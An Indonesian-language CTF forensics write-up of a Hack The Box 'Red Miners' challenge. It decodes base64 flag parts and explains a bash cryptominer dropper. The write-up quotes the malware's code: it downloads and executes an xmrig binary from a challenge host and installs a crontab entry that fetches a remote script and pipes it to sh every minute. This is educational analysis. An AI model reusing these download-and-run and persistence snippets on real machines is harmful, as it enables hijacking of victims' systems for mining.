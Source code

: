 #forensic #bash
#writeup_sipoer #writeup_djkampus #writeup_twang 


1. diberikan sebuah file zip dengan nama forensics_red_miners.zip, kemudian kita akan mengextraks file tersebut, dan mengeluarkan file baru miner_installer.sh 
**![](https://lh6.googleusercontent.com/ULq9bO1SXbQYWjQ2XAtxf1uUnWtnV5eBftClhHqIV2zk6NKs3Hv9UKyfLodwIR4atdzB-EJTWifi423TJyWXeMFUnlRjWxIF6j-cKlBwCdao6zSfhow7vV8jHSV52LKDdrJw81ZGrGac1Xl6gTqqFIM)**\
2. selanjutnya kita akan melakukan isi file miner_installers.sh dengan menggunakan strings
```
strings [filename]
```

![[attachments/Pasted image 20230717223526.png]] 
**![](https://lh3.googleusercontent.com/Z3xQExbBab8HVbC1IFGU4ab6riT5Omzmk_5gnQofgjgUjlyOVnoX9qssBganM6C608d9-pjeU2Vuosd__jiJWDQD7jqCi7DxbFTVIdqgnI9IXr5BXfpy-TbW8jfqXFjTk-Z4RKHg3hwukVF0zxJq_HA)**
3. ketika saya melakukan strings, terdapat ciphertext yang mengarah ke base64, disini saya akan mencoba untuk mendecodenya dan ternyata file tersebut memiliki plaintext part1="HTB{m1n1ng"
```
echo "ciphertext" | base64 -d
```
**![](https://lh5.googleusercontent.com/uWwjbKpXKMYoW46hZMgNYW1BJg4p6-KI0XzpnvvH6Deuw1HGjJb2stYdfLmudAdWZeqkFD8NEGqVpaDnpdGDXoGn4bZIUEbq1TqXwfdHAT9whlxI8OiPgfMH9sq7Oo4AWyZaa8f7D-Gmgt9XErx7ZeY)**
4. saya berasumsi bahwa terdapat ciphertext base64 yang lain, sehingga saya melakukan strings lagi dengan tambahan ( grep == ) 
```
strings [filename] | grep ==
```
**![](https://lh6.googleusercontent.com/GpZ9ajKi7_iJFt9zGs9A8EM-UZ1FlcX54v1skmOoCcOUddfHxG8ztAP-_maT3v_1GZrAK0nZWf_xyAz-NR25ckdekJ0Ktlz--tcQA87mhDDi4RuSHqaa-lntmCXnHFnHcm1-tNUwvkMwX7Bt8XRJYSg)**
5. saya melakukan decode secara manual indikasi file yang terdapat base64, dengan melakukan echo “ciphertext” | base64 -d
```
echo "ciphertext" | base64 -d 
```
**![](https://lh4.googleusercontent.com/PTZTim5eUHofvsf58TBj1-Ol8HZ4NIYsWHmSqvv1WcR2-AsJUT6NGGjaRQLQWjoSQ_Mp4wGStt2_iY0Ut4FdYKNurz2BJbRCs5RYaL7St_TwgVRJ4r1OxDpLo2TxWT6TJIzrpnnRSKnml650DZY1zfg)**

**Flag = HTB{m1n1ng_th31r_w4y_t0_m4rs}** 



# Penjelasan Malware
Malware `redminers` mulai dieksekusi pada baris 723 (sifat interpreter pada bash) dengan memanggil fungsi-fungsi yang sudah didefinisikan sebelumnya. Contoh `checkTarget` dan `check_if_operation_is_active`.
```sh
checkTarget
check_if_operation_is_active
```

Malware `redminers` melakukan check apakah username komputer memiliki username `root7654` dan hostname berawalan `UNZ-`. Apabila, tidak maka `redminers` tidak akan dieksekusi. Kemungkinan potongan ini adalah script supaya malware ini tidak tereksekusi secara tidak sengaja. 
```sh
checkTarget() {
  EXPECTED_USERNAME="root7654"
  EXPECTED_HOSTNAME_PREFIX="UNZ-"

  CURRENT_USERNAME=$(whoami)
  CURRENT_HOSTNAME=$(hostname)

  if [[ "$CURRENT_USERNAME" != "$EXPECTED_USERNAME" ]]; then
      exit 1
  fi

  if [[ ! "$CURRENT_HOSTNAME" == "$EXPECTED_HOSTNAME_PREFIX"* ]]; then
      exit 1
  fi
}
```

Kemudian `redminers` melakukan pengujian koneksi terhadap server. URL ini mengandung base64 flag pertama.
```
check_if_operation_is_active() {
  local url="http://tossacoin.htb/cGFydDI9Il90aDMxcl93NHkiCg=="
  
  if curl --silent --head --request GET "$url" | grep "200 OK" >/dev/null; then
    echo "Internet is enabled."
  else
    exit 1
  fi
}
```

Setelah itu, `redminers` akan melakukan download kepada url `http://tossacoin.htb/xmrig` dan disimpan dengan nama filename `xmrig`. Fungsi `checkExists()` mengandung base64 informasi flag kedua.
```sh
BIN_MD5="96cc922d3eb9ef23859377119332f8d7"
BIN_DOWNLOAD_URL="http://tossacoin.htb/xmrig"
BIN_DOWNLOAD_URL2="http://tossacoin.htb/xmrig"
BIN_NAME="xmrig"

...

checkExists() {
  CHECK_PATH=$1
  MD5=$2
  sum=$(md5sum $CHECK_PATH | awk '{ print $1 }')
  retval=""
  if [ "$MD5" = "$sum" ]; then
    echo >&2 "$CHECK_PATH is $MD5"
    retval="true"
  else
    echo >&2 "$CHECK_PATH is not $MD5, actual $sum"
    retval="false"
  fi

  dest=$(echo "X3QwX200cnN9Cg=="|base64 -d)
  if [[ ! -d $dest ]];
  then
    mkdir -p "$BIN_PATH/$dest"
  fi
  cp $CHECK_PATH $BIN_PATH/$dest
  echo "$retval"
}


...


Sleep 1000
binExists=$(checkExists "$BIN_FULL_PATH" "$BIN_MD5")
if [ "$binExists" = "true" ]; then
  echo "$BIN_FULL_PATH exists and checked"
else
  echo "$BIN_FULL_PATH not exists"
  download $BIN_FULL_PATH $BIN_DOWNLOAD_URL
  binExists=$(checkExists "$BIN_FULL_PATH" "$BIN_MD5")
  if [ "$binExists" = "true" ]; then
    echo "$BIN_FULL_PATH after download exists and checked"
  else
    echo "$BIN_FULL_PATH after download not exists"
    download $BIN_FULL_PATH $BIN_DOWNLOAD_URL2
    binExists=$(checkExists "$BIN_FULL_PATH" "$BIN_MD5")
    if [ "$binExists" = "true" ]; then
      echo "$BIN_FULL_PATH after download2 exists and checked"
    else
      echo "$BIN_FULL_PATH after download2 not exists"
    fi
  fi
fi
```

Malware `redminers` mencoba mengeksekusi file yang didownload. Malware ini juga melakukan persistence dengan memasang script pada crontab yang berjalan setiap menit untuk memastikan malware tersebut berjalan. File ini mengandung base64 flag ketiga.
```sh
chmod 777 $BIN_FULL_PATH
chmod +x $BIN_FULL_PATH
SKL=ex $BIN_FULL_PATH

crontab -l | sed '/#wget/d' | crontab -
crontab -l | sed '/#curl/d' | crontab -
crontab -l | grep -e "tossacoin.htb" | grep -v grep
if [ $? -eq 0 ]; then
  echo "cron good"
else
  (
    crontab -l 2>/dev/null
    echo '* * * * * $LDR http://tossacoin.htb/ex.sh | sh & echo -n cGFydDE9IkhUQnttMW4xbmciCg==|base64 -d > /dev/null 2>&1'
  ) | crontab -
fi
```

